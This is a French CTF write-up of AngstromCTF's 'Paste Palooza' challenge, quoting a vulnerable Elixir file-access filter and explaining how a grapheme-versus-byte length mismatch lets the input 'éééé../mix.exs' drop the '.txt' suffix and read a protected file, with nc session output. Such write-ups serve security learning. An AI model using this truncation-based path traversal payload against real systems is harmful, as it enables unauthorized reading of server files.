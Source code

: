 # Angstorm - CTF writeup - misc - paste palooza - 150 pts
- Ici on a droit à un programme en [elixir](https://elixir-lang.org/).
- En regardant les [sources](src/pastepalooza/redacted), on voit vite notre but à atteindre dans le fichier [mix.exs](src/pastepalooza/redacted/mix.exs)
```
defmodule PastePalooza.Mixfile do
  use Mix.Project

  def project do
    [
      app: :pastepalooza,
      version: "0.1.0",
      elixir: "~> 1.5",
      start_permanent: Mix.env == :prod,
      deps: deps(),
      flag: "REDACTED"
    ]
  end
```
- En regardant en détail le contenu du programme on tombe sur une partie interessante :
```
defmodule Utility do

  def access(filename) do
    unsafe = "pastes/" <> filename <> ".txt"
    path = filter(unsafe <> <<0>>, "", String.length(unsafe))
    case File.read path do
      {:ok, content} -> content
      {:error, reason} -> "File not found.\n"
    end
  end

  def filter(<< head, tail :: binary >>, acc, n) do
    if n == 0 do
      acc
    else
      n = n - 1
      if head < 33 or head > 126 do
        filter(tail, acc, n)
      else
        filter(tail, acc <> <<head>>, n)
      end
    end
  end
end
```

- filename étant la variable controlée par l'utilisateur.
- Ici on teste donc du path traversal en mettant du ../ dans le nom de fichier, mais evidement cela ne fonctionne pas car le programme ajoute `.txt` en fin de fichier ce qui nous empèche d'aller récupérer le fichier `../mix.exs`
```
➜  ~ nc web.angstromctf.com 3001
Welcome to Paste Palooza!
Currently, only the file access feature is available.
Access a file by entering its name: ../mix.exs
File not found.
```
- En regardant en détail le programme on voit qu'il :
  - concatène `pastes/` notre variable `filename` et l'extension `.txt`
  - concatène le tout avec un null byte `<<0>>` et envoie le tout a la méthode filter en précisant la taille du string.
  - La fonction filter est une fonction récursive qui va passer la chaîne caractère par caractère en excluant les caractères dont le code ascii est inférieur à 33 ou supérieur à 126 via le [bitsring binary](https://hexdocs.pm/elixir/Kernel.SpecialForms.html#%3C%3C%3E%3E/1)

- On cherche donc un moyen d'enlever les quatres derniers caractères `.txt` en fin de notre chaine filename. Pour se faire, il faudrait que la taille trouvé par ` String.length(unsafe)` fasse 4 caractères de moins que la taille de notre chaîne itérée par `<< head, tail :: binary >>` afin de tronquer la chaine et pouvoir récupérer le contenu de mix.exs.

- On tombe sur cette article sur la gestion des caractères unicode par elixir :
https://www.bignerdranch.com/blog/elixir-and-unicode-part-2-working-with-unicode-strings/
> String.length in Elixir will give you the number of graphemes, which is how long the string “looks”. If you want byte_size or a count of codepoints, you’ll have to be explicit about that.

- On se rend compte qu'élixir renvoie dans string.length effectivement la taille apparente, mais non la taille réèlle si l'on envoie des caractères spéciaux :
```
iex> String.length("ë")
1
iex> << head, tail :: binary >> = "ë"
"ë"
iex> head
195
iex> tail
<<171>>
```
- Donc le caractère ë ne prend pas une taille de 1 mais en fait deux valeurs une fois découpé 195 et 171

- On applique donc la même logique au challenge en ajoutant quatres caractères ë en début de chaine qui seront enlevés par le filtre (30 < code ascii < 126) mais qui vont faire paraître la chaine 4 charactères plus petite que ce qu'elle l'est réellement.
- Par consequent les 4 derniers caractères ne seront pas recopiés par la fonction de filtrage et on obtient le flag en envoyant `éééé../mix.exs` en filename :

```
➜  ~ nc web.angstromctf.com 3001
Welcome to Paste Palooza!
Currently, only the file access feature is available.
Access a file by entering its name: éééé../mix.exs
defmodule PastePalooza.Mixfile do
  use Mix.Project

  def project do
    [
      app: :pastepalooza,
      version: "0.1.0",
      elixir: "~> 1.5",
      start_permanent: Mix.env == :prod,
      deps: deps(),
      flag: "actf{elixir_encoding}"
```


By team Beers4Flags

```
 ________
|        |
|  #BFF  |
|________|
   _.._,_|,_
  (      |   )
   ]~,"-.-~~[
 .=] Beers ([
 | ])  4   ([
 '=]) Flags [
   |:: '    |
    ~~----~~
```
